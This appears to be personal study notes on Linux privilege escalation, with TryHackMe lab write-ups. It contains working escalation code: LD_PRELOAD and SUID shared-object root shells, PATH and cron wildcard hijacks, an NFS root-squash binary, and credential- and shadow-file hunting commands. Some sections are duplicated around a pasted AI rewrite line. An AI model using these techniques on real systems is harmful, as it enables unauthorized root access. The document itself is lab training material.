




https://swisskyrepo.github.io/PayloadsAllTheThings/

## System Enumeration

To gather information about the system (Kernel), we can use the following command:

```bash
uname -a
```


Alternatively, we can use:

```bash
cat /proc/version
```

To check the CPU architecture, run:

```bash
lscpu
```

To see what services are running, use:

```bash
ps aux
```

## User Enumeration

To identify the current user, we can run:

```bash
id
```

To check the groups the user belongs to, run:

```bash
groups
```

To list the commands that can be run with sudo privileges, use:

```bash
sudo -l
```


We can view the user accounts in the system with:

```bash
cat /etc/passwd
```


The groups information is stored in:

```bash
cat /etc/group
```


To see the password hashes of users (if accessible), check:

```bash
cat /etc/shadow
```


A useful command for inspecting previously executed commands is:

```bash
history
```


### Essential First Steps

1. Run `whoami` to confirm the current user.
2. Run `sudo -l` to check sudo privileges.
3. Run `uname -a` for system information.
4. Run `lscpu` to check CPU architecture.
5. Run `history` to review previous commands.

## Network Enumeration

To see the machine's IP address, use one of the following commands, depending on the Linux version:

```bash
ip a
```

or

```bash
ifconfig
```

To view the network route:

```bash
ip route
```

For the ARP table:

```bash
arp -a
```

or

```bash
ip neigh
```

To see open ports and connections, use:

```bash
netstat -ano
```

## Password Hunting

To search for passwords within files across the filesystem, a handy command is:

```bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```


Alternatively, to find files named "password":

```bash
locate password | more
```


To locate SSH keys, use the following commands:

```bash
find / -name id_rsa 2> /dev/null
```

or

```bash
find / -name authorized_keys 2> /dev/null
```


In this example, we successfully found an SSH key.

## Automated Tools

Here are some useful automated enumeration tools for privilege escalation:

- **[PEASS-ng (linPEAS)](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)**
- **[LinEnum](https://github.com/rebootuser/LinEnum)**
- **[Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)**
- **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

Always start with `linpeas` and consider running other tools if no vulnerabilities are found. Both `linpeas` and `LinEnum` provide similar functionalities.

To check for exploitable vulnerabilities, you can use `linux-exploit-suggester`:


# Kernel Exploitation

A quick list of kernel exploits can be found here: [Kernel Exploits Repository](https://github.com/lucyoa/kernel-exploits)

First, we identify the kernel version using:

```bash
uname -a
```

After running `linux-exploit-suggester`, we identified a kernel exploit that could be used.


---

# Password & File Permissions

One of the first things to check is the command history using:

```bash
history
```

In this case, we found the root password in the command history.


We can then attempt to log in as root using this password, and it works.


Sometimes, passwords can also be stored in home directory files:


It's essential to check for access to critical files such as `/etc/passwd` and `/etc/shadow`.


If we have write access, we could modify the files directly. Since we only have read access, we can copy the contents of both files and run:

```bash
unshadow passwd shadow
```


This will create an unshadowed file that we can use for password cracking.


Next, we determine the hash type from this [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes).


We then use `hashcat` to crack the password.


It's recommended to run `hashcat` on the host machine, as running it on a VM can be extremely slow.


# Escalation via SSH Keys

To locate SSH keys on the target system, we executed the following commands:

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```


Upon discovering the keys, we attempted to connect via SSH using the found key for the `root` user, which was successful.

# Sudo Escalation Path

To identify potential privilege escalation paths via sudo, we can refer to [GTFOBins](https://gtfobins.github.io/), a resource that details various methods for exploiting programs.

Additionally, for hands-on practice with privilege escalation techniques, the following TryHackMe room is beneficial: [Privilege Escalation Playground](https://tryhackme.com/room/privescplayground).

If a program is not listed on GTFOBins, we can always search online to explore any intended functionalities that may allow privilege escalation.

# Escalation via LD_PRELOAD

One common vulnerability occurs when the `LD_PRELOAD` variable is visible in the output of `sudo -l`.


To exploit this, we can write a simple C program to spawn a shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");   
}
```

After compiling the program with the following command:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can then load `shell.so` as `LD_PRELOAD` to gain root access by executing any command that can run with root privileges:

```bash
sudo LD_PRELOAD=/home/user/shell.so apache2
```

This successfully provided us with a root shell.


# Challenge 1

In this exercise, we aim to evaluate our learning by completing a box available at [TryHackMe - Easy CTF](https://tryhackme.com/r/room/easyctf).

## Initial Reconnaissance

We began with an Nmap scan, which revealed the following open ports:

```bash
21 (FTP)
80 (HTTP)
2222 (SSH)
```

## Web Server Enumeration

Next, we performed directory enumeration on the web server, which led us to a content management system (CMS) located at `/simple`. Upon investigation, we identified it as Simple CMS version 2.2.8, known to have vulnerabilities documented in [Exploit DB](https://www.exploit-db.com/exploits/46635).

## Exploitation

After executing the exploit, we successfully retrieved the following credentials: 

**Username:** mitch  
**Password:** secret



## Gaining Access

With these credentials, we attempted to gain a foothold on the vulnerable machine.


We confirmed access as the authenticated admin user and proceeded to search for a Remote Code Execution (RCE) exploit. We discovered a relevant exploit at [Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/).

Upon executing the RCE exploit, we were successful in establishing a connection.

## Privilege Escalation

To elevate our privileges, we decided to check if we could SSH into the box using the newly acquired credentials (`mitch:secret`).

The SSH login was successful, allowing us to explore this avenue before attempting privilege escalation with the `www-data` user.


During our exploration, we noted that we could run `vim` with sudo privileges without a password. We proceeded to execute this command to elevate our privileges.


We successfully rooted the box, demonstrating our understanding of the exploitative processes involved in this exercise. 

# Interesting Exploit with Sudo

## Vulnerability Related to [(ALL, !root) /bin/bash]

In cases where we cannot explicitly run `/bin/bash` as root, there exists an exploit detailed in [Exploit DB](https://www.exploit-db.com/exploits/47502).

When running `sudo -l`, we observed the following permissions:

```bash
User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash
```

This indicates that the user `hacker` can execute `/bin/bash` with sudo, but not directly as root. To exploit this, we can use the following command:

```bash
sudo -u#-1 /bin/bash
```

## Vulnerability Related to pwfeedback

In certain versions of `sudo`, if the `pwfeedback` option is enabled, this vulnerability can be exploited. More details can be found on [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634).

To check if the `pwfeedback` option is active, we can execute the following command:

```bash
sudo sudo [any command]
```

If the `pwfeedback` option is enabled, it may reveal a potential path for privilege escalation.

# Escalation path with SUID

Command to find all executable with SUID for this user

```bash
find / -perm -u=s -type f 2> /dev/null
```

```bash
find / -perm -04000 -ls 2> /dev/null
```


## Shared Object Injection

```bash
strace /usr/local/bin/suid-so 2&>1 | grep -i -E "open|access|no such file"
```


Malicious code

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```


```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcal.c 
```


## Escalation via Environmental Variable

To look at enviromnetal variable 

```bash
env
```


```bash
strings /usr/local/bin/suid-env
```


```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

After

```bash
export PATH=/tmp:$PATH
```

```bash
/usr/local/bin/suid-env
```


This works if the command dont call the executableby the full path , but if a executable is called but a full path like this 


We need to do another thing 

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```


And like this we can get a shell as the SUID user

---

# Escalation Path Using SUID

## Finding Executables with SUID

To find all executables with the SUID bit set for the current user, you can use the following commands:

```bash
find / -perm -u=s -type f 2> /dev/null
```

Alternatively:

```bash
find / -perm -04000 -ls 2> /dev/null
```


## Shared Object Injection

To identify potential vulnerabilities, you can trace the system calls of a SUID executable with `strace`:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```


### Malicious Code Example

Here's an example of malicious C code that copies `/bin/bash` to `/tmp`, grants it SUID permissions, and executes it with elevated privileges:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p");
}
```


Compile the malicious code into a shared object:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcal.c 
```


## Escalation via Environmental Variables

To inspect environment variables:

```bash
env
```


Check for any hard-coded paths or exploitable functions in the SUID executable using ```strings```:

```bash
strings /usr/local/bin/suid-env
```


You can inject malicious code by compiling and placing it in a directory that will be before the real executable in the ```PATH``` variable:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

Afterwards, modify the `PATH` to prioritize the injected code:

```bash
export PATH=/tmp:$PATH
```

Execute the vulnerable SUID binary:

```bash
/usr/local/bin/suid-env
```


This method works when the command doesn't call executables by their full path. However, if the full path is used, such as:


### Function Injection

In cases where a full path is used, we need to define a function to override the behavior:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```


By doing this, you can gain a shell with the SUID user's privileges.

# Privilege Escalation via Capabilities

To search for files with capabilities, use the following command:

```bash
getcap -r / 2> /dev/null
```

Look for files with the `+ep` flag:


You can exploit such files by running this command:

```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


# Privilege Escalation through Scheduled Tasks

To view cron jobs, you can use the following command:

```bash
cat /etc/crontab
```


Additionally, you can list systemd timers using:

```bash
systemctl list-timers --all
```

## Escalation via Cron Path Manipulation

In the output of `cat /etc/crontab`, you might notice a `PATH` variable where the first directory it searches is `/home/user`. If it doesn’t find the required script there, it moves on to the next directory:


To exploit this, we can hijack a script, such as `overwrite.sh`, as follows:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

Once that’s done, you can execute the newly created `bash` file in the `/tmp` directory with the following command:

```bash
/tmp/bash -p
```



## Escalation via Cron Wildcards

For this example, we will use `tar` as specified in the `/etc/crontab` file:


To exploit this vulnerability, execute the following commands:

```bash
echo 'cp /bin/bash /tmp/bash3; chmod +s /tmp/bash3' > /home/user/runme.sh
chmod +x /home/user/runme.sh
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=exec=sh runme.sh'

/tmp/bash3 -p
```


## Privilege Escalation via File Overwrite

If we have permission to overwrite a crontab task, such as the one shown below:




We can exploit this by using a similar method to the previous examples to gain root access. Here’s the command to modify the `overwrite.sh` script:

```bash
echo 'cp /bin/bash /tmp/bash4; chmod +s /tmp/bash4' >> /usr/local/bin/overwrite.sh
```


# Challenge #2: CMess Room

**Link**: [TryHackMe CMess Room](https://tryhackme.com/r/room/cmess)

### Initial Nmap Scan

To begin, we performed an Nmap scan to identify open ports on the target machine.

```bash
nmap -T4 10.10.108.161
```

**Results**:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The scan revealed two open ports:
- **Port 22**: SSH
- **Port 80**: HTTP

Next, we ran a more detailed scan to gather additional service information:

```bash
nmap -T4 -p 22,80 -A 10.10.108.161
```

**Detailed Scan Results**:

```
22/tcp open  ssh     OpenSSH 7.2p2 (Ubuntu)
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- **Port 22**: OpenSSH 7.2p2 (Ubuntu)
- **Port 80**: Apache 2.4.18 running on Ubuntu, with Gila CMS

Additionally, the `/robots.txt` file revealed some disallowed directories:

```bash
Disallow: /src/
Disallow: /themes/
Disallow: /lib/
```

### Directory Busting with Wfuzz

Next, we performed subdirectory enumeration using `wfuzz`:

```bash
wfuzz -c -f sub-fighter -w top5000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm" --hw 290
```

We successfully discovered the subdomain `dev.cmess.thm`.


### Discovering a User Password

Upon exploring `dev.cmess.thm`, we found a password for the user `andre`:


```bash
andre@cmess.thm:KPFTN_f2yxe%
```

### Identifying Gila CMS Version

Once authenticated, we identified the version of Gila CMS:


This led us to an exploit for this CMS:

- **Exploit**: [Gila CMS Exploit (Exploit-DB)](https://www.exploit-db.com/exploits/51569)

### Reverse Shell Exploit

We executed the exploit and successfully gained a reverse shell:


### Privilege Escalation

Now operating as the `www-data` user, we needed to escalate our privileges. After running `linpeas.sh`, we discovered an interesting file containing a backup password for the `andre` user.


Using this password, we logged in as the `andre` user via SSH.


```
andre:UQfsdCB7aAP6
```

### Exploiting Cron Job

While we couldn’t run `sudo`, we found a cron job in the `crontab` file. By crafting a script to exploit this cron job, we escalated our privileges to root.


### Gaining Root Access

Here’s the command we used to gain root privileges:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
chmod +x /home/andre/backup/runme.sh
touch '/home/andre/backup/--checkpoint=1'
touch '/home/andre/backup/--checkpoint-action=exec=sh runme.sh'
```

And finally, we became root:


# Privilege Escalation via NFS Root Squashing

To determine if a system is vulnerable to NFS root squashing, check the contents of the `/etc/exports` file:


From the attacker’s machine, you can list the shared folders using:

```bash
showmount -e [IP]
```


Next, mount the shared folder with the following commands:

```bash
mkdir /tmp/mount
mount -o rw,vers=2 10.10.158.65:/tmp /tmp/mount
```

Once mounted, you can compile and set permissions on a new executable:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/mount/x.c
gcc /tmp/mount/x.c -o /tmp/mount/x
chmod +s /tmp/mount/x
```

Finally, execute the compiled binary on the victim’s machine to obtain a root shell:

```bash
/tmp/x
```

This method leverages NFS root squashing to escalate privileges.

# Capstone Challenge

## 1

Link: https://tryhackme.com/r/room/lazyadmin

Found USER:PASS for http://10.10.169.27/content/as/index.php

Found here: http://10.10.169.27/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql

```bash
manager:Password123
```


Version of Sweet Rice CMS found here: http://10.10.169.27/content/inc/lastest.txt

```bash
1.5.1
```

Found database password

```bash
rice:randompass
```


Using this exploit we uploaded a reverse shell: https://www.exploit-db.com/exploits/40716


We can run this perl command as sudo


I found that this perl script calls a bash script called ```/etc/copy.sh```

And we got write permission on that ```copy.sh```

So what I did is that 


And with that we got root access

Here's a more polished version of your documentation, maintaining a professional tone while preserving all images:

---

# Challenge Capstone

## Challenge 1

**Link:** [TryHackMe: Lazy Admin](https://tryhackme.com/r/room/lazyadmin)

During the reconnaissance phase, we discovered valid credentials for accessing the application at the following URL: [http://10.10.169.27/content/as/index.php]

[http://10.10.169.27/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql]

**Credentials Found:**
```bash
manager:Password123
```


### Version Information

The version of Sweet Rice CMS was identified at the following location: [http://10.10.169.27/content/inc/latest.txt]

**Version Detected:**
```bash
1.5.1
```

Additionally, we located another set of credentials for the database:

**Database Credentials:**
```bash
rice:randompass
```


### 2. Exploit Execution

Using the identified vulnerabilities, we uploaded a reverse shell using an exploit found at [Exploit DB #40716](https://www.exploit-db.com/exploits/40716).


### 3. Privilege Escalation

Upon gaining access, we found that we could execute a Perl command with elevated privileges.


### Script Analysis

Further investigation revealed that the Perl script in question invokes a Bash script located at `/etc/copy.sh`. Notably, we had write permissions on this script.

**Script Path:**
```bash
/etc/copy.sh
```

#### Modification and Root Access

To exploit this, we modified the `copy.sh` script to gain root access.


## Challenge 2: Anonymous Access

**Link to the Task:** [TryHackMe: Anonymous](https://tryhackme.com/r/room/anonymous)

### Nmap Scan Results

During the Nmap scan, the following services and versions were identified:

```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.5.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

### Exploiting FTP Anonymous Access

Since the FTP service allowed anonymous user access, I connected to it and discovered the following:


Within the FTP directory, I found a script named `clean.sh`. I theorized that if I modified this script and embedded a reverse shell, it might execute periodically via a cron job.


To my success, the modified script executed as intended.


### Privilege Escalation

Upon running `linpeas`, we identified that `/usr/bin/env` had the SUID bit set. 

By executing the following command, we achieved root access:

```bash
/usr/bin/env /bin/sh -p
```


## Challenge 3

### Room Link
[TryHackMe Tomghost](https://tryhackme.com/r/room/tomghost)

### Enumeration Results

After scanning with Nmap, the following services were identified:

```bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open   tcpwrapped
3168/tcp closed poweronnud
8009/tcp open   ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open   http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Discovery and Exploitation

1. **Apache Tomcat 9.0.30**:
   - We identified that **Apache Tomcat 9.0.30** was running on port **8080**. Research indicated a known vulnerability, [Ghostcat (CVE-2020-1938)](https://www.rapid7.com/db/modules/auxiliary/admin/http/tomcat_ghostcat), exploitable using Metasploit’s `tomcat_ghostcat` module.
   
2. **Using the Ghostcat Exploit**:
   - This exploit revealed a set of **credentials**:
     ```plaintext
     USER:PASS - skyfuck:8730281lkjlkjdqlksalks
     ```

   

3. **SSH Login**:
   - With these credentials, SSH access was achieved.

4. **Finding `user.txt` Flag**:
   - Navigating to another user’s directory, we located the **`user.txt` flag**.

   

5. **Discovering PGP Key and Encrypted File**:
   - In the `/home/skyfuck` folder, a **PGP key** and an **encrypted file** were found.

   

6. **Cracking the PGP Key**:
   - Although we didn’t have the passphrase for the PGP key, we were able to **crack it using John the Ripper**.

   

7. **New Credentials for `merlin`**:
   - After cracking, we retrieved the following credentials:
     ```plaintext
     merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
     ```

   

8. **Privilege Escalation Using `zip`**:
   - We discovered that the `zip` command could be executed as **root without a password**. This allowed for an easy privilege escalation to root.

   

9. **Gaining Root Access**:
   - With this escalation method, root access was successfully obtained.

   

10. **Root Flag Obtained**.

   

## Challenge 4: TryHackMe - ConvertMyVideo

**Link**: [TryHackMe Room - ConvertMyVideo](https://tryhackme.com/r/room/convertmyvideo)

### 1. Scanning with Nmap

We begin by scanning the target IP `10.10.218.194` to identify open ports and services:

```bash
└─$ nmap -T4 -p 22,80 -A 10.10.218.194
```

#### Nmap Scan Results:

- **Host**: 10.10.218.194
- **Latency**: 0.83s

| Port   | State | Service | Version                                   |
|--------|-------|---------|-------------------------------------------|
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu) |
| 80/tcp | open  | http    | Apache httpd 2.4.29 (Ubuntu)             |

Additional Information:
- **SSH Host Key**:  
  - RSA: `65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec`
  - ECDSA: `c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db`
  - ED25519: `ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1`
- **HTTP Title**: The site does not have a title (text/html; charset=UTF-8).
- **OS**: Linux; **CPE**: `cpe:/o:linux:linux_kernel`

### 2. Website Enumeration and Exploitation

After running directory enumeration on the web server, we found an **`/admin`** folder that requires a password.

Further analysis with **Burp Suite** revealed that the site is vulnerable to Remote Code Execution (RCE).

   

### 3. Reverse Shell Access

1. **Uploading Reverse Shell**:
   - We uploaded a reverse shell script to the server and accessed it at `http://10.10.218.194/pshell.php` to execute it.

   

2. **Gaining Initial Shell Access**:
   - Once executed, the reverse shell connected back to our listener, providing initial access to the server.

   

### 4. Privilege Escalation

Running **`pspy64`** on the target system showed that the root user periodically executes the script `/var/www/html/tmp/clean.sh`.

   

To exploit this:

1. **Modifying `clean.sh`**:
   - We appended a reverse shell command to `clean.sh`.

   

2. **Root Shell Access**:
   - When the root user next executed `clean.sh`, it triggered our reverse shell, granting root-level access.

   

## Challenge 5


saydrawnlyingpicture
